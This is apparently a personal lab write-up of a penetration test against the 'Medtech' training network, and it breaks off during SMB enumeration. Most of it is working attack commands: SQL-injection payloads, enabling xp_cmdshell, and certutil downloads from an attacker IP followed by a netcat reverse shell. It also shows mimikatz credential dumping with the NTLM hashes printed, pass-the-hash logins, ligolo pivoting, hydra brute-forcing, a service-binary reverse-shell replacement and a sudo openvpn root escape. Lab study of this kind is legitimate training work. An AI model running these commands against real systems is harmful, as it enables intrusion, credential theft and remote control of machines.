# Medtech

## Targets

```bash
#External
192.168.231.120 (Flags: 
192.168.231.121 (Flags: Admin)
192.168.231.122 (Flags: root / offsec

# Internal
172.16.231.10 (DC01) (Flags: 
172.16.231.11 (FILES02) (Flags: Admin / Joe)
172.16.231.12 (DEV04) (Flags: 
172.16.231.13 (PROD01) (Flags: 
172.16.231.14 (Flags: Mario /
172.16.231.82 (CLIENT01) (Flags: 
172.16.231.83 (CLIENT03) (Flags: Admin / Wario)
```

## Nmap Scan
```bash
 nmap -Pn 192.168.104.120-122
Starting Nmap 7.98 ( https://nmap.org ) at 2026-03-24 01:18 +0000
Nmap scan report for 192.168.104.120
Host is up (0.13s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap scan report for 192.168.104.121
Host is up (0.14s latency).
Not shown: 995 closed tcp ports (reset)
PORT     STATE SERVICE
80/tcp   open  http
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
5985/tcp open  wsman

Nmap scan report for 192.168.104.122
Host is up (0.14s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh

Nmap done: 3 IP addresses (3 hosts up) scanned in 24.68 seconds

```
## Nmap -A -T4 .120
```bash
nmap -A -T4 -p 22,80 192.168.104.120
# Results
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 84:72:7e:4c:bb:ff:86:ae:b0:03:00:79:a1:c5:af:34 (RSA)
|   256 f1:31:e5:75:31:36:a2:59:f3:12:1b:58:b4:bb:dc:0f (ECDSA)
|_  256 5a:05:9c:fc:2f:7b:7e:0b:81:a6:20:48:5a:1d:82:7e (ED25519)
80/tcp open  http    WEBrick httpd 1.6.1 (Ruby 2.7.4 (2021-07-07))
|_http-title: PAW! (PWK Awesome Website)
|_http-server-header: WEBrick/1.6.1 (Ruby/2.7.4/2021-07-07)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|router
Running: Linux 4.X|5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 4.15 - 5.19, Linux 5.0 - 5.14, MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
Network Distance: 4 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT       ADDRESS
1   102.83 ms 192.168.45.1
2   102.26 ms 192.168.45.254
3   102.56 ms 192.168.251.1
4   102.79 ms 192.168.104.120


```
## Nmap -A -T4 .121
```bash
nmap -A -T4 -p 80,135,139,445,5985 192.168.104.121
# Results
Starting Nmap 7.98 ( https://nmap.org ) at 2026-03-24 01:21 +0000
Nmap scan report for 192.168.104.121
Host is up (0.10s latency).

PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: MedTech
| http-methods: 
|_  Potentially risky methods: TRACE
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows Server 2016 (94%), Microsoft Windows Server 2022 (92%), Microsoft Windows 10 1607 (91%), Microsoft Windows Server 2012 R2 (91%), Microsoft Windows Server 2019 (89%), Microsoft Windows 7 SP1 or Windows Server 2008 R2 or Windows 8.1 (89%), Microsoft Windows 10 1703 or Windows 11 21H2 (89%), Microsoft Windows Server 2016 or Server 2019 (89%), Microsoft Windows Server 2012 (88%), Microsoft Windows 10 1703 (87%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2026-03-24T01:22:09
|_  start_date: N/A

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   104.55 ms 192.168.45.1
2   104.47 ms 192.168.45.254
3   104.81 ms 192.168.251.1
4   105.05 ms 192.168.104.121

```
## Nmap -A -T4 .122
```bash
# Results
Starting Nmap 7.98 ( https://nmap.org ) at 2026-03-24 01:22 +0000
Nmap scan report for 192.168.104.122
Host is up (0.12s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 60:f9:e1:44:6a:40:bc:90:e0:3f:1d:d8:86:bc:a9:3d (ECDSA)
|_  256 24:97:84:f2:58:53:7b:a3:f7:40:e9:ad:3d:12:1e:c7 (ED25519)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|router
Running: Linux 4.X|5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 4.15 - 5.19, Linux 5.0 - 5.14, MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
Network Distance: 4 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT       ADDRESS
1   176.11 ms 192.168.45.1
2   176.02 ms 192.168.45.254
3   176.32 ms 192.168.251.1
4   175.98 ms 192.168.104.122
```
## Web page enumeration

```bash
# Navigated too: http://192.168.104.121/login.aspx

# Attempted to login with admin'
# Got an SQLi Error showing vulnerability in username filed

```
## Attempt Common Injects
```bash
admin' or '1'='1
' or '1'='1
" or "1"="1
" or "1"="1"--
" or "1"="1"/*
" or "1"="1"#
" or 1=1
" or 1=1 --
" or 1=1 -
" or 1=1--
" or 1=1/*
" or 1=1#
" or 1=1-
") or "1"="1
") or "1"="1"--
") or "1"="1"/*
") or "1"="1"#
") or ("1"="1
") or ("1"="1"--
") or ("1"="1"/*
") or ("1"="1"#
) or '1`='1-
```
# Attempt to enable xp_command and get a reverse shell
```bash
# Note: This is only viable if one of the previous payloads indicated it was vulnerable
# In this example admin' proved it was vulnerable.
# The key components are:

' — closes the open string
; — ends the original query
EXECUTE ... — your new command
-- — comments out the rest

# Run these one at a time in the vulnerable field (IE: Username or Password ETC.)
# Enable advanced options and xp_cmdshell

';EXECUTE sp_configure 'show advanced options',1--

';RECONFIGURE;--

';EXECUTE sp_configure 'xp_cmdshell',1--

';RECONFIGURE;--
 
# Download netcat to target system
# Start HTTP Server with nc.exe
python -m http.server 80 

';EXEC xp_cmdshell "certutil -urlcache -f http://192.168.45.236:80/nc.exe c:/windows/temp/nc64.exe";--
 
# Execute reverse shell
';EXEC xp_cmdshell "c:/windows/temp/nc64.exe -e cmd.exe 192.168.45.236 4444";--
```


## Priv Esc.



```bash
# SeImpersonatePrivilege Identified
# Lets try PrintSpoofer.exe
# Transfer File
certutil -urlcache -f http://192.168.45.244/PrintSpoofer.exe C:\Users\Public\Documents\PrintSpoofer.exe

# Run it:
.\PrintSpoofer.exe -i -c cmd

# Or
.\PrintSpoofer.exe -i -c powershell.exe

# NT AUTH/System Achieved
```

```bash
# Grab Administrator Flag
```
## Manual Enumeration

```bash
# Discovered Credentials 
uid=sa
password=WhileChirpTuesday218
```
## Transfer and Run MimiKatz
```bash
# Transfer
certutil -urlcache -f http://192.168.45.244/mimikatz.exe C:\Users\Public\Documents\mimikatz.exe

# Run it
mimikatz.exe
privilege::debug
sekurlsa::logonpasswords

# Extracted Information
WEB02: 01543ec2b39b0a6a19a9bb5db7ade2bf

MSSQL$MICROSOFT##WID: 01543ec2b39b0a6a19a9bb5db7ade2bf

joe: 08d7a47a6f9f66b97b1bae4178747494
# joe:Flowers1

Administrator: b2c03054c306ac8fc5f9d188710b0168
```

## Login Evil-WinRM as Admin
```bash
evil-winrm -i 192.168.231.121 -u 'Administrator' -H 'b2c03054c306ac8fc5f9d188710b0168'
```

# Ligolo
```bash
# Create Ligolo Interface
sudo ip tuntap add user kali mode tun ligolo

# Start Ligolo Interface
sudo ip link set ligolo up

# Start ligolo linux proxy
cd ~/tools/ligolo/ligolo-ng_proxy_0.8.1_linux_amd64

sudo ./proxy -selfcert -laddr 0.0.0.0:11601

# Transfer
# Windows Based Agent
cd ~/tools/ligolo/ligolo-ng_agent_0.8.1_windows_amd64

# Connect to Target
evil-winrm -i 192.168.130.206 -u r.andrews -p BusyOfficeWorker890

# Upload agent
upload agent.exe

#Connect to Ligolo Proxy
./agent.exe -connect 192.168.45.244:11601 -ignore-cert

# Start session
session
1
start

# Identify Routes to add
┌───────────────────────────────────────────────┐
│ Interface 1                                   │
├──────────────┬────────────────────────────────┤
│ Name         │ Ethernet1                      │
│ Hardware MAC │ 00:50:56:86:26:b0              │
│ MTU          │ 1500                           │
│ Flags        │ up|broadcast|multicast|running │
│ IPv4 Address │ 172.16.231.254/24              │
└──────────────┴────────────────────────────────┘

# Add ip route
sudo ip route add 172.16.231.0/24 dev ligolo

# Confirm success with ping
```

## CME/Netexec with joe credentials

```bash
netexec winrm 172.16.231.0/24 -u joe -p 'Flowers1' --continue-on-success

# Results

WINRM       172.16.231.12   5985   DEV04            [*] Windows Server 2022 Build 20348 (name:DEV04) (domain:medtech.com) 
WINRM       172.16.231.13   5985   PROD01           [*] Windows Server 2022 Build 20348 (name:PROD01) (domain:medtech.com) 
WINRM       172.16.231.11   5985   FILES02          [*] Windows Server 2022 Build 20348 (name:FILES02) (domain:medtech.com) 
WINRM       172.16.231.10   5985   DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:medtech.com) 
WINRM       172.16.231.83   5985   CLIENT02         [*] Windows 11 Build 22000 (name:CLIENT02) (domain:medtech.com) 
WINRM       172.16.231.12   5985   DEV04            [-] medtech.com\joe:Flowers1
WINRM       172.16.231.254  5985   WEB02            [*] Windows Server 2022 Build 20348 (name:WEB02) (domain:medtech.com) 
WINRM       172.16.231.13   5985   PROD01           [-] medtech.com\joe:Flowers1
WINRM       172.16.231.11   5985   FILES02          [+] medtech.com\joe:Flowers1 (Pwn3d!)
WINRM       172.16.231.11   5985   FILES02          [-] Neo4J does not seem to be available on bolt://127.0.0.1:7687.
WINRM       172.16.231.11   5985   FILES02          [-] Neo4J does not seem to be available on bolt://127.0.0.1:7687.
WINRM       172.16.231.10   5985   DC01             [-] medtech.com\joe:Flowers1
WINRM       172.16.231.83   5985   CLIENT02         [-] medtech.com\joe:Flowers1
WINRM       172.16.231.254  5985   WEB02            [-] medtech.com\joe:Flowers1
Running nxc against 256 targets ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100% 0:00:00
```


## Log into FILES02 (.11)
```bash
evil-winrm -i 172.16.231.11 -u joe -p 'Flowers1'

# Grab User Flag
# Grab Administrator Flag
```

## Search for Interesting files
```bash
Get-ChildItem -Path C:\Users -Include *.log,*.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue
```


## Download and inspect file
```bash
# Credentials Found
daisy:abf36048c1cf88f5603381c5128feb8e
toad:5be63a865b65349851c1f11a067a3068  
wario:fdf36048c1cf88f5630381c5e38feb8e 
goomba:8e9e1516818ce4e54247e71e71b5f436
```

## Run netexec for another WinRM login
```bash
netexec winrm 172.16.231.10-13 -u daisy -H abf36048c1cf88f5603381c5128feb8e -d medtech.com --continue-on-success

netexec winrm 172.16.231.83 -u daisy -H abf36048c1cf88f5603381c5128feb8e -d medtech.com --continue-on-success

netexec winrm 172.16.231.83 -u toad -H 5be63a865b65349851c1f11a067a3068 -d medtech.com --continue-on-success

netexec winrm 172.16.231.10-13 -u toad -H 5be63a865b65349851c1f11a067a3068 -d medtech.com --continue-on-success

netexec winrm 172.16.231.10-13 -u wario -H fdf36048c1cf88f5630381c5e38feb8e -d medtech.com --continue-on-success

netexec winrm 172.16.231.83 -u wario -H fdf36048c1cf88f5630381c5e38feb8e -d medtech.com --continue-on-success

netexec winrm 172.16.231.10-13 -u goomba -H 8e9e1516818ce4e54247e71e71b5f436 -d medtech.com --continue-on-success

netexec winrm 172.16.231.83 -u goomba -H 8e9e1516818ce4e54247e71e71b5f436 -d medtech.com --continue-on-success

# Results wario:fdf36048c1cf88f5630381c5e38feb8e
# .83 Pwn3d
```


## Log into CLIENT02 (.83) With Wario

```bash
evil-winrm -i 172.16.231.83 -u wario -H fdf36048c1cf88f5630381c5e38feb8e

# Grab Local Flag
# Pwn3d was false. Need to escelate privs.

```

## Transfer and run WinPeas

```bash
# Upload
upload winPEASx64.exe

# Run it
.\winPEASx64.exe

# Interesting service found:
C:\DevelopmentExecutables\auditTracker.exe

# Confirm our user can edit it:
icacls "C:\DevelopmentExecutables\auditTracker.exe"

# Results
C:\DevelopmentExecutables\auditTracker.exe Everyone:(I)(F)
                                           BUILTIN\Administrators:(I)(F)
                                           NT AUTHORITY\SYSTEM:(I)(F)
                                           BUILTIN\Users:(I)(RX)
                                           NT AUTHORITY\Authenticated Users:(I)(M)

# Note that EVERYONE has (F) Full privs to edit
```


## Create a Binary to establish a reverse shell once the .exe is ran as Administrator

```bash
# Premade script from traning material
# Ouse revshells `Powershell #3 (base64)
# Compile this script
# Create File
sudo nano revshell_script.c
------------------------------------
#include <stdlib.h>
int main() {
  system("powershell -e BASE64PAYLOADHERE");
  return 0;
}
# Compile it:
x86_64-w64-mingw32-gcc revshell_script.c -o auditTracker.exe

# Replace the file with the steps above, and restart service or system.

#NOTE: Get the service name from WinPeas output
# Stop Service
sc.exe stop auditTracker

# Start Listener
nc -nvlp 4444

# Start Service
sc.exe start auditTracker
```


```bash
# Grab Administrator Flag
```

## Revisiting .120
```bash
## Nmap -A -T4 .120
```bash
nmap -A -T4 -p 22,80 192.168.231.120
# Results
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 84:72:7e:4c:bb:ff:86:ae:b0:03:00:79:a1:c5:af:34 (RSA)
|   256 f1:31:e5:75:31:36:a2:59:f3:12:1b:58:b4:bb:dc:0f (ECDSA)
|_  256 5a:05:9c:fc:2f:7b:7e:0b:81:a6:20:48:5a:1d:82:7e (ED25519)
80/tcp open  http    WEBrick httpd 1.6.1 (Ruby 2.7.4 (2021-07-07))
|_http-title: PAW! (PWK Awesome Website)
|_http-server-header: WEBrick/1.6.1 (Ruby/2.7.4/2021-07-07)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|router
Running: Linux 4.X|5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 4.15 - 5.19, Linux 5.0 - 5.14, MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
Network Distance: 4 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT       ADDRESS
1   102.83 ms 192.168.45.1
2   102.26 ms 192.168.45.254
3   102.56 ms 192.168.251.1
4   102.79 ms 192.168.104.120
```

## Dirbuster

```bash
gobuster dir -u http://192.168.104.120 -w /usr/share/wordlists/dirb/common.txt

# Results
404                  (Status: 200) [Size: 4328]
about                (Status: 301) [Size: 44] [--> http://192.168.231.120/about/]
assets               (Status: 301) [Size: 46] [--> http://192.168.231.120/assets/]
index                (Status: 200) [Size: 4649]
index.html           (Status: 200) [Size: 4649]
robots.txt           (Status: 200) [Size: 36]
sitemap.xml          (Status: 200) [Size: 503]
static               (Status: 301) [Size: 46] [--> http://192.168.231.120/static/]
```
## .122

```bash
# Password Spray with known users.
# User offsec crack on .122
hydra -l offsec -P /usr/share/wordlists/rockyou.txt ssh://192.168.231.122 -t 4

# Results:
offsec:password

```
## SSH in .122 with offsec and grab flag

```bash
ssh offsec@192.168.231.122

# Grabbed Flag

```

## Priv Esc on .122

```bash
sudo -l

#Results
(ALL : ALL) /usr/sbin/openvpn

- Visit: https://gtfobins.org/gtfobins/openvpn/

Found the following command ran it as is:

sudo openvpn --dev null --script-security 2 --up '/bin/sh -s'

# Root Obtained
# Flag Grabbed
```


## Grabbed SSH key for user mario
```bash
ls /home/mario/.ssh/

# Results
id_rsa  id_rsa.pub  known_hosts  known_hosts.old

# copy key 
cat id_rsa
```
# Attempt to login with SSH key on known hosts (.14)
```bash
ssh -i mario_id_rsa mario@172.16.231.14

# Success
# Grab Local flag
```

## Unable to find way forward with .120

## Internal Machine Enumeration with SMB

```bash
netexec smb 172.16.231.10-14 -u wario -H fdf36048c1cf88f5630381c5e38feb8e -d medtech.com --shares

# Results
SMB         172.16.231.11   445    FILES02          Share           Permissions     Remark
SMB         172.16.231.11   445    FILES02          -----           -----------     ------
SMB         172.16.231.11   445    FILES02          ADMIN$                          Remote Admin
SMB         172.16.231.11   445    FILES02          C               READ            
SMB         172.16.231.11   445    FILES02          C$                              Default share
SMB         172.16.231.11   445    FILES02          IPC$            READ            Remote IPC
SMB         172.16.231.11   445    FILES02          TEMP                            
SMB         172.16.231.13   445    PROD01           [+] medtech.com\wario:fdf36048c1cf88f5630381c5e38feb8e 
SMB         172.16.231.13   445    PROD01           [-] Neo4J does not seem to be available on bolt://127.0.0.1:7687.
SMB         172.16.231.12   445    DEV04            [*] Enumerated shares
SMB         172.16.231.12   445    DEV04            Share           Permissions     Remark
SMB         172.16.231.12   445    DEV04            -----           -----------     ------
SMB         172.16.231.12   445    DEV04            ADMIN$                          Remote Admin
SMB         172.16.231.12   445    DEV04            C$                              Default share
SMB         172.16.231.12   445    DEV04            IPC$            READ            Remote IPC
SMB         172.16.231.10   445    DC01             [*] Enumerated shares
SMB         172.16.231.10   445    DC01             Share           Permissions     Remark
SMB         172.16.231.10   445    DC01             -----           -----------     ------
SMB         172.16.231.10   445    DC01             ADMIN$                          Remote Admin
SMB         172.16.231.10   445    DC01             C$                              Default share
SMB         172.16.231.10   445    DC01             IPC$            READ            Remote IPC
SMB         172.16.231.10   445    DC01             NETLOGON        READ            Logon server share 
SMB         172.16.231.10   445    DC01             SYSVOL          READ            Logon server share 
SMB         172.16.231.13   445    PROD01           [*] Enumerated shares
SMB         172.16.231.13   445    PROD01           Share           Permissions     Remark
SMB         172.16.231.13   445    PROD01           -----           -----------     ------
SMB         172.16.231.13   445    PROD01           ADMIN$                          Remote Admin
SMB         172.16.231.13   445    PROD01           C$                              Default share
SMB         172.16.231.13   445    PROD01           IPC$            READ            Remote IPC
Running nxc against 5 targets ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100% 0:00:00

# And

netexec smb 172.16.231.82-83 -u wario -H fdf36048c1cf88f5630381c5e38feb8e -d medtech.com --shares 

# Results 
SMB         172.16.231.82   445    CLIENT01         Share           Permissions     Remark
SMB         172.16.231.82   445    CLIENT01         -----           -----------     ------
SMB         172.16.231.82   445    CLIENT01         ADMIN$                          Remote Admin
SMB         172.16.231.82   445    CLIENT01         C$                              Default share
SMB         172.16.231.82   445    CLIENT01         IPC$            READ            Remote IPC
SMB         172.16.231.83   445    CLIENT02         [*] Enumerated shares
SMB         172.16.231.83   445    CLIENT02         Share           Permissions     Remark
SMB         172.16.231.83   445    CLIENT02         -----           -----------     ------
SMB         172.16.231.83   445    CLIENT02         ADMIN$                          Remote Admin
SMB         172.16.231.83   445    CLIENT02         C               READ,WRITE      
SMB         172.16.231.83   445    CLIENT02         C$                              Default share
SMB         172.16.231.83   445    CLIENT02         IPC$            READ            Remote IPC
SMB         172.16.231.83   445    CLIENT02         Windows         READ    
```


## Enumerate
```bash
# Starting with .10 SYSVOL
